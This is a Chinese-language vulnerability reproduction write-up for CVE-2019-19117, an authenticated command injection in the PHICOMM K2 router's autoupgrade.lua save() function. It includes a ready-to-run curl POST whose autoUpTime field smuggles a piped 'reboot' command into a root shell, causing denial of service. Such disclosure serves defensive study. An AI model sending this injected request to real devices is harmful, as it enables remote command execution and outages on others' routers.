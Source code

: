 ```yaml
---
title: （CVE-2019-19117）PHICOMM 远程代码执行
id: zhfly3395
---
```


# （CVE-2019-19117）PHICOMM 远程代码执行

## 一、漏洞简介

通过修改HTTP post请求中的内容，在根shell上远程执行命令。

## 二、漏洞影响

PHICOMM K2(PSG1218) V22.5.9.163

## 三、复现过程

受影响的源代码文件：/usr/lib/lua/luci/controller/admin/autoupgrade.lua

受影响的函数：save（）

### 漏洞详情

首先，在通过Web登录身份验证，会话劫持漏洞或弱凭据破解攻击以获取访问权限后，向设备发送精心制作的数据包

```
curl -i -s -k -v -X'POST'  -e "http://192.168.2.1/cgi-bin/luci/;stok=xxx/xxx/xxx/xxx" -b "sysauth=4a2c4bdba5fb1273ce62759fd42dba42" --data-binary "mode=1&autoUpTime=02%3A05|reboot" 'http://192.168.2.1/cgi-bin/luci/;stok=xxx/admin/xxx/xxx/xxx' 
```

在此http数据包中，我们将要执行“重新引导”的命令添加到数据包内容中。

![image](../img/cbff0b1782fed475a58bbddc9946eefd.png)

我们可以看到，将'autoUpTime'的值直接分配给变量，而无需检查该值是否被恶意修改，然后发送给服务器。

![image](../img/170b838385357ddab0218a8bcf30d126.png)

然后，服务器直接将数据附加到命令，而无需检查数据是否也被恶意修改，从而使攻击者想要执行的命令附加到该命令。

最后，路由器将执行命令“ reboot”，这将导致DoS。